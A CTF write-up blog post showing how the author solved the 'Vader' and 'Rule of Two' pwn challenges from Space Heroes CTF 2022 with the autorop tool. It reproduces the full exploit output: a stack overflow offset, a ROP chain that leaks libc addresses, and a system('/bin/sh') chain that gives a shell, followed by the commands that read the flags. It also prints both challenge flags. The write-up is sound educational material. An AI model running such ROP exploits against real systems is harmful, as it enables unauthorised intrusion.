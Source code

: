```yaml
---
layout: post
title:  "Vader and Rule of Two (PWN Challenge Writeup) -- Space Heroes CTF 2022"
date:   2022-04-04
image: spaceheroes.png
---
```

<p class="intro"><span class="dropcap">F</span>ITSEC Team from <a href="https://floridatech.campuslabs.com/engage/organization/fitsec">Florida Tech</a> has done an excellent job preparing this CTF. These two challenges have one thing in common and that is that they can be solved using automated tools! This is a UNINTENDED Solution.</p>


### This is a UNINTENDED Solution for this two challenges.


Challenges Description:

<figure>
        <img src="/assets/img/vader.png" alt="" />
        <figcaption>PWN Challenges</figcaption>
</figure>

If you see close, you note that both challenge has the same address, same port, and most important, the same binary!!

I will use an automated tool for CTF PWN resolution challenges called [AUTOROP](https://autorop.readthedocs.io/en/latest/)


```bash
┌──(leonuz㉿sniper)-[~[~/SpaceHeroesCTF/PWN/Vader]]
└─$ autorop ./vader 0.cloud.chals.io 20712 
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/vader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Produced pipeline: Classic(Corefile(), OpenTarget(), Puts(False, ['__libc_start_main', 'puts']), Auto(), SystemBinSh())
[*] Pipeline [1/5]: Corefile()
[+] Starting local process './vader': pid 9817
[*] Process './vader' stopped with exit code -11 (SIGSEGV) (pid 9817)
[+] Receiving all data: Done (0B)
[+] Parsing corefile...: Done
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/vader'/core.9817'
    Arch:      amd64-64-little
    RIP:       0x4015f9
    RSP:       0x7ffe4eb5c7c8
    Exe:       '/home/leonuz/CTFs/SpaceHeroesCTF/vader' (0x400000)
    Fault:     0x6161616161616166
[*] Fault address @ 0x6161616161616166
[*] Offset to return address is 40
[*] Pipeline [2/5]: OpenTarget()
[+] Opening connection to 0.cloud.chals.io on port 20712: Done
[*] Pipeline [3/5]: Puts(False, ['__libc_start_main', 'puts'])
[+] Opening connection to 0.cloud.chals.io on port 20712: Done
[*] Loaded 20 cached gadgets for './vader'
[*] 0x0000:         0x401016 ret
    0x0008:         0x40165b pop rdi; ret
    0x0010:         0x404ff0 [arg0] rdi = __libc_start_main
    0x0018:         0x401030 puts
    0x0020:         0x401016 ret
    0x0028:         0x40165b pop rdi; ret
    0x0030:         0x405018 [arg0] rdi = got.puts
    0x0038:         0x401030 puts
    0x0040:         0x401016 ret
    0x0048:         0x4015b5 main()
[*] leaked __libc_start_main @ 0x7f1409a81720
[*] leaked puts @ 0x7f1409acfde0
[*] Pipeline [4/5]: Auto()
[*] Searching for libc based on leaks using libc.rip
[!] 8 matching libc's found, picking first one
[*] Downloading libc
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/.autorop.libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Pipeline [5/5]: SystemBinSh()
[*] Loaded 191 cached gadgets for '.autorop.libc'
[*] 0x0000:         0x401016 ret
    0x0008:         0x40165b pop rdi; ret
    0x0010:   0x7f1409be2962 [arg0] rdi = 139724039530850
    0x0018:   0x7f1409aa3850 system
    0x0020:         0x401016 ret
    0x0028:         0x4015b5 main()
[*] Switching to interactive mode
MMMMMMMMMMMMMMMMMMMMMMMMMMMWXKOxdolc;',;;::llclodkOKNWMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMWXOoc;::::::;;;clkKNXxlcccc:::::cdOXWMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMWMMNkc,;clccc;,...    .:c:. ...,;:cccc:,,ckNMWMMMMMMMMMMMMMDARK
MMMMMMMMMMMMMMMMMMXx;;lol:'            .'.           .':loc',xNMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMW0:;dxlcc'            .dO;             .::lxo':0MMMMMMMMMMMMS1D3
MMMMMMMMMMMMMMMWk':Ol;x0c           ';oKK: .            cOo,dk;,OMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMO':Ol:0Xc            l0OXNc.l'            cKO;o0;,KMMMMMMMMMMMMOF
MMMMMMMMMMMMMMX:'Oo:KMd             o0ONWc'x,            .xM0:xk.lWMMMMMMMMMMMMM
MMMMMMMMMMMMMMx.okcOMMk.            o0OWMl'x;            .xMMklOc'OMMMMMMMMMMTH3
MMMMMMMMMMMMMWc'xldWMMWKx'          oOkNMo,x;          'oONMMWdod.oMMMMMMMMMMMMM
MMMMMMMMMMMMMK;:dl0MMMMMXc          lOxNMo'd;          lWMMMMMOld;:NMMMMMMMFORC3
MMMMMMMMMMMMMO':ldWMMMMWo           ckxNMd,d;          .kMMMMMNlc;,KMMMMMMMMMMMM
MMMMMMMMMMMMMk';cxMMMMMWOl:,.       cxxNMx;d;       .,;l0MMMMMWdc;'0MMMMMMMMMMMM
MMMMMMMMMMMMMx',cOMMMWXOxoc;.       cxxNMkcx:       .cdkOXWMMMMd:;'0MMMMMMMMMMMM
MMMMMMMMMMMMMx';;l0xl,.    .       ,0xdWMOcOx.           .,lkXWd:;'OMMMMMMMMMMMM
MMMMMMMMMMMMMd.ld:'    .',;::ccc:;,kWxxWMOlONo',:cc::,'...   'ood:'OMMMMMMMMMMMM
MMMMMMMMMMMMWl.xK:            .';coOXo:xxo:kKkl:;'.           .oXl.OMMMMMMMMMMMM
MMMMMMMMMMMM0';d'       .......',;;''.    ..'',;,'......        lo.lWMMMMMMMMMMM
MMMMMMMMMMMX:,l'        ..      .',:;lo. ;d:;:,..     ..         c:.xWMMMMMMMMMM
MMMMMMMMMMNc,o,                     '0XxoOWd.                    .l:,0MMMMMMMMMM
MMMMMMMMMWd,o;                      .xMNXWWc                      .o::XMMMMMMMMM
MMMMMMMMMk,oc                    .. .kXkdONc ..                    'd;oWMMMMMMMM
MMMMMMMM0;lo.         .;:,'....  'cxxo;'''cxxo:. ......';'          :x:xWMMMMMMM
MMMMMMMK:lx.           'xNNXXXKd;;::,.,l:..':c;,;xKKKXX0l.           oxcOMMMMMMM
MMMMMMXcck,         ..   ,cloool:. .lc,,'.cx, .';looooc.             .kxlKMMMMMM
MMMMMWoc0c      .'. .cdll;..',;lkOxxl:xOOxclddkkl:,''.';:cl'  ..      :KddNMMMMM
MMMMWxc0x.       :o; .xWWKkdodkKWMMKlxWMMMKdOMMWXkdoloONMXc .cc.      .dXdxWMMMM
MMMMOcOK;         'xd.'0MMMMMMMXk0Xc'dKXXKO:,0KkKWMMMMMMWo.;xl.        ,0XxOWMMM
MMM0lkNo           .xO;cXWWMWXd:dx; ;d;,:l:  ;xd:l0WMMMWx,oO;           oWKx0MMM
MMKokW0'            .dKdOWMNx;ckd:. lK,.cOd..lcdO:'oXMMKokO,            .OWKkXMM
MXdxN0;              .kWNWXc.,d;.do lK,.:kd.,0l.;o,.:KWNNK,              ;KW0kNM
NxdOc.                ,0MMd..;l''Oo lK,.;kd.;Ko .,,. lWMXc                'xXOOW
xd0d.                  ;KMO,.c0ocXk;xXocxK0cdNOcol'''dWWd.                 .o0kO
,xWX:                   :XXc.:oddxxxxxxddxxxxkkOko;.:KNd.                  'kN0l
.,dOkdoc:,'..            .'..,lxkox0OO0kxOOxOOddxl,..,,.              ..,:lkKOl.
x,...',;:cc::;,,'''...        .,;cdO0KKKXXKkdo:,,'.        ...'',,,,;;clllc;'..;
MNKOxdoolcc::;;;;. ..             ..,;:clc;..              ...,;;;,,'',;;:clox0N
MMMMMMMMMMMMMMMMW0;                                          'kKXXNNNWWMMMMMMMMM
MMMMMMMMMMMMMMMMMMNd,..          ........                .. .kWMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMWKxl;..       'okOOko:,..     ..  ....';lKWMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMXkdc'....   .,cc:,,'..  .'o0Oo:;:cokXMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMWXkdoc;''''',,;;:::::::ccllclx0NMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMWXkol:;,'.''''....,cokKWMMMMMMMMMMMMMMMMMMMMMMMMMMMM


 When I left you, I was but the learner. Now I am the master >>> $ 

 ```

At this point, we can see the prompt `$` which indicate that the machine has been pwn. Let's list the directory looking for the flags. 


```bash
 When I left you, I was but the learner. Now I am the master >>> $ ls
-
banner_fail
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
service.conf
sith.txt
srv
sys
tmp
usr
vader
var
wrapper
$ cat flag.txt
shctf{th3r3-1s-n0-try}
$ cat sith.txt
shctf{W1th0ut-str1f3-ur-v1ctory-has-no-m3an1ng}
$ 
[*] Interrupted
[*] Closed connection to 0.cloud.chals.io port 20712
[*] Closed connection to 0.cloud.chals.io port 20712
                                                                                                                                                                                            
```
<center>flag for "Vader" Challenge is inside of flag.txt:</center>
**<center>shctf{th3r3-1s-n0-try}</center>**
<center>flag for "Rule of two" Challenge is inside of sith.txt: </center>
**<center>shctf{W1th0ut-str1f3-ur-v1ctory-has-no-m3an1ng}</center>**

---

#### More Info about automatic tools for PWN here 
- [AUTOROP](https://github.com/mariuszskon/autorop)
- [ZERATOOL](https://github.com/ChrisTheCoolHut/Zeratool)

- - -
### Final Notes.

An excellent engineering professor taught me that **"As an engineers we can't know ALL the answers, but we should know how to look for them"**.

- - -

Thanks [FITSEC Team](https://floridatech.campuslabs.com/engage/organization/fitsec) for the excellent CTF.

For fun and knowledge, always think out of the box! :)


